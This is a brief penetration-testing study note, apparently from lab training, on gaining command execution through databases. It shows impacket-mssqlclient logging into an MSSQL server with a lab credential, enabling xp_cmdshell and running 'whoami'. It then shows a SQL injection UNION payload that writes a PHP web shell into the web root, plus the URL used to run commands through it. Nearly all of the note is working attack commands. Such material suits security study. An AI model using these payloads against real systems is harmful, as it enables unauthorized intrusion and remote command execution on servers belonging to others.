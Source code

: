 MSSQL - xp_cmdshell function takes a string and passes it to a command shell for execution.
disabled by default, called by execute keyword instead of select

impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';

' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
192.168.120.19/tmp/webshell.php?cmd=id
